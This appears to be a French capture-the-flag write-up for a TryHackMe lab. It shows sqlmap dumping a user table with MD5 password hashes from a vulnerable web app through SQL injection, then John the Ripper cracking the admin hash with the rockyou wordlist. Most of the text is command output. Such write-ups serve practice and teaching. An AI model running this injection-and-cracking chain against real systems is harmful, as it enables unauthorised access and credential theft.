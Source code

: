 On récupère une requête avec burp. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r input.req --flush --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:40:53 /2021-11-07/
...
Table: people
[5 entries]
+----------+--------------+----------------------------------+------------------+
| idPeople | namePeople   | passwordPeople                   | permissionPeople |
+----------+--------------+----------------------------------+------------------+
| 1        | Eurycliedes  | 42354020b68c7ed28dcdeabd5a2baf8e | user             |
| 2        | Menekrates   | 0b3bebe266a81fbfaa79db1604c4e67f | user             |
| 3        | Philostratos | b83f966a6f5a9cff9c6e1c52b0aa635b | user             |
| 4        | Daedalus     | b8e4c23686a3a12476ad7779e35f5eb6 | user             |
| 5        | M!n0taur     | 1765db9457f496a39859209ee81fbda4 | admin            |
+----------+--------------+----------------------------------+------------------+

[21:41:36] [INFO] table 'labyrinth.people' dumped to CSV file '/home/tim/.local/share/sqlmap/output/minautor.thm/dump/labyrinth/people.csv'
```

Avec sqlmap on extrait des données qui les identifiants des utilisateurs.   
Les identifiants M!n0taur:1765db9457f496a39859209ee81fbda4 sont intéressant.   
Le mot de passe est sous forme de hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti 1765db9457f496a39859209ee81fbda4
MD5 [HC: 0] [JtR: raw-md5]

tim@kali:~/Bureau/tryhackme/write-up$ echo '1765db9457f496a39859209ee81fbda4' > hash

john hash -w=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
aminotauro       (?)
1g 0:00:00:00 DONE (2021-11-07 21:47) 1.886g/s 19176Kp/s 19176Kc/s 19176KC/s amir71..aminmunee
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
